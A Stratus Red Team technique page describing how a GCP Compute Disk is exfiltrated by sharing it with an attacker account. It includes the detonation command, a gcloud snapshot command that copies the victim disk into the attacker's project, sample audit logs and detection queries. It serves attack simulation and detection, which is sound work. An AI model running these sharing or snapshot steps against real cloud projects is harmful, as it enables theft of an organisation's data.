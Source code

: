 ```yaml
---
title: Exfiltrate Compute Disk by sharing it
---
```


# Exfiltrate Compute Disk by sharing it


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: GCP

## MITRE ATT&CK Tactics


- Exfiltration

## Description


Exfiltrates a Compute Disk by sharing with a fictitious attacker account. The attacker could then create a snapshot of the disk in their GCP project.

<span style="font-variant: small-caps;">Warm-up</span>:

- Create a Compute Disk

<span style="font-variant: small-caps;">Detonation</span>:

- Set the IAM policy of the disk so that the attacker account has permissions to read the disk in their own project


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate gcp.exfiltration.share-compute-disk
```
## Detection


You can detect when someone changes the IAM policy of a Compute Disk, using the GCP Admin Activity audit logs event <code>v1.compute.disks.setIamPolicy</code>. Here's a sample event, shortened for clarity:

```json hl_lines="18 20 25""
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "user-sharing-the-disk@domain.tld",
      "principalSubject": "user:user-sharing-the-disk@domain.tld"
    },
    "requestMetadata": {
      "callerIp": "34.33.32.31",
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/..."
    },
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "policy": {
        "version": "3",
        "bindings": [
          {
            "role": "roles/owner",
            "members": [
              "user:attacker@gmail.com"
            ]
          }
        ]
      },
      "@type": "type.googleapis.com/compute.disks.setIamPolicy"
    }
  }
}
```

After the attacker has permissions on the Compute Disk, they can create a snapshot of it in their own GCP project using:

```bash
gcloud compute snapshots create stolen-snapshot \
	--source-disk https://www.googleapis.com/compute/v1/projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk
```

When they do so, a GCP Admin Activity event <code>v1.compute.snapshots.insert</code> is generated in the victim project, 
indicating that the attacker has not only shared but also actively stolen data from the disk (sample event shortened below):

```json hl_lines="5 6 14 16"
{
  "protoPayload": {
    "@type": "type.googleapis.com/google.cloud.audit.AuditLog",
    "authenticationInfo": {
      "principalEmail": "attacker@gmail.com",
      "principalSubject": "user:attacker@gmail.com"
    },
    "requestMetadata": {
      "callerSuppliedUserAgent": "google-cloud-sdk gcloud/...",
      // Note: the IP of the attacker is not logged in this event
    },
    "serviceName": "compute.googleapis.com",
    "methodName": "v1.compute.snapshots.insert",
    "resourceName": "projects/victim-project/zones/us-central1-a/disks/stratus-red-team-victim-disk",
    "request": {
      "@type": "type.googleapis.com/compute.snapshots.insert"
    },
    "metadata": {
      "@type": "type.googleapis.com/google.cloud.audit.CrossEntityControlAuditMetadata"
    }
  }
}
```

Based on these events, detection strategies may include:

- Alerting when the IAM policy of a Compute Disk is changed, especially if such a sharing mechanism is not part of your normal operations. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.disks.setIamPolicy"
```

- Alerting when someone with an unexpected e-mail domain creates a snapshot of a Compute Disk. Sample GCP Logs Explorer query:

```sql
protoPayload.methodName="v1.compute.snapshots.insert"
NOT protoPayload.authenticationInfo.principalEmail=~".+@your-domain.tld$"
```


